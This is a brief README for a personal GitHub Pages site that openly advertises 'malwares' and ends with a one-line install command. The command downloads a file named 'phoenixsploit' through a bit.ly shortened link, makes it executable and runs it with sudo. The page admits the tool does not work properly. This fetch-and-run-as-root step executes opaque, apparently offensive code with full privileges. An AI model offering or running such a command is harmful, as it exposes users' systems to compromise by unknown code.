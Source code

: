 # phoenixthrush.github.io
Just memes, codes, malwares, an archive and lots more lol!

Follow me if u wanna get a &nbsp; <a href="https://instagram.com/phoenixthrush">:cookie: &nbsp;</a>lmao

<br>

NEW UPDATE!
DOES NOT FUNCTION PROPERLY

wget https://bit.ly/phoenixsploit && sudo chmod +x phoenixsploit && sudo ./phoenixsploit
